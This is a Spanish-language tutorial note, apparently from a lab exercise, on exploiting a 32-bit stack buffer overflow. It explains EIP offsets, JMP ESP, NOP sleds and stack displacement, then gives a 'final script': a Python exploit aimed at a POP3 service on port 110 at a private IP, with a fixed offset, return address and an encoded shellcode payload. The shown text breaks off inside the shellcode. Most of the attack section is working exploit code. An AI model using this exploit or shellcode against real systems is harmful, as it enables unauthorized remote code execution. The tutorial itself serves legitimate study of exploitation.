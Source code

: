 Hasta el momento hayamos el **offset** para saber donde comenzamos a sobrescribir el **registro EIP** (Encargado de apuntar a la siguiente tarea a ejecutar ) para así posteriormente hallar un espacio en memoria que contenga el **OpCode** ( *JMP ESP* ) el cual es un OpCode que se encarga de hacer que el flujo del programa salte al **registro ESP** ( Encargado de la pila ) para poner esta dirección de memoria como valor del registro EIP, para cargar en la pila nuestro **shellcode** malicioso ( Creado ignorando los **badchars** hallados a partir del **bytearray** probado en el programa ) y como el EIP apunta al OpCode JMP ESP hacer que el flujo del programa salte a la pila (**stack**) donde esta nuestro **shellcode** (Instrucciones a bajo nivel).

 El problema es que aveces no damos tiempo a que nuestro shellcode se ejecute ya que el procesador no llega a realizarlo en su tiempo, por lo que nos hace falta hacer uso de una de las técnicas que se suele usar en este caso como el uso de NOPs o el desplazamiento de la pila.

Por lo que, si quisiéramos hacer uso de NOPs simplemente deberíamos representar el byte *\\x90* varías veces, como 16 o 32 antes del shellcode.  
Por otro lado, si quisiéramos hacer uso del desplazamiento de la pila simplemente podríamos hacer otra vez uso de la herramienta de metasploit **nasm_shell.rb** 

```bash
# NOPs 
nops = b"\x90"*32

# STACK DISPLACEMENT

/usr/share/matasploit-framework/tools/exploit/nasm_shell.rb 
# Entramos en modo interactivo y tipeamos: 
sub esp,0x10
# Esto nos arroja un OpCode (83EC10) decrementa el valor del puntero de pila 10 bytes 
stack_displacement = b"\x83\xEC\x10"

```

De esta manera habríamos explotado un [[Buffer Overflow]] en una arquitectura x86 (32 bits).

#### Script final: 
```python
#!/usr/bin/python3 

import socket
import sys 
from struct import pack 
ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4a358f)
shellcode = (b"\xbd\xb9\xba\x5a\xae\xd9\xe5\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x52\x31\x6f\x12\x83\xc7\x04\x03\xd6\xb4\xb8\x5b\xd4"
b"\x21\xbe\xa4\x24\xb2\xdf\x2d\xc1\x83\xdf\x4a\x82\xb4\xef"
b"\x19\xc6\x38\x9b\x4c\xf2\xcb\xe9\x58\xf5\x7c\x47\xbf\x38"
b"\x7c\xf4\x83\x5b\xfe\x07\xd0\xbb\x3f\xc8\x25\xba\x78\x35"
b"\xc7\xee\xd1\x31\x7a\x1e\x55\x0f\x47\x95\x25\x81\xcf\x4a"
b"\xfd\xa0\xfe\xdd\x75\xfb\x20\xdc\x5a\x77\x69\xc6\xbf\xb2"
b"\x23\x7d\x0b\x48\xb2\x57\x45\xb1\x19\x96\x69\x40\x63\xdf"
b"\x4e\xbb\x16\x29\xad\x46\x21\xee\xcf\x9c\xa4\xf4\x68\x56"
b"\x1e\xd0\x89\xbb\xf9\x93\x86\x70\x8d\xfb\x8a\x87\x42\x70"
b"\xb6\x0c\x65\x56\x3e\x56\x42\x72\x1a\x0c\xeb\x23\xc6\xe3"
b"\x14\x33\xa9\x5c\xb1\x38\x44\x88\xc8\x63\x01\x7d\xe1\x9b"
b"\xd1\xe9\x72\xe8\xe3\xb6\x28\x66\x48\x3e\xf7\x71\xaf\x15"
b"\x4f\xed\x4e\x96\xb0\x24\x95\xc2\xe0\x5e\x3c\x6b\x6b\x9e"
b"\xc1\xbe\x3c\xce\x6d\x11\xfd\xbe\xcd\xc1\x95\xd4\xc1\x3e"
b"\x85\xd7\x0b\x57\x2c\x22\xdc\x98\x19\x2d\x3d\x71\x58\x2d"
b"\x3c\x3a\xd5\xcb\x54\x2c\xb0\x44\xc1\xd5\x99\x1e\x70\x19"
b"\x34\x5b\xb2\x91\xbb\x9c\x7d\x52\xb1\x8e\xea\x92\x8c\xec"
b"\xbd\xad\x3a\x98\x22\x3f\xa1\x58\x2c\x5c\x7e\x0f\x79\x92"
```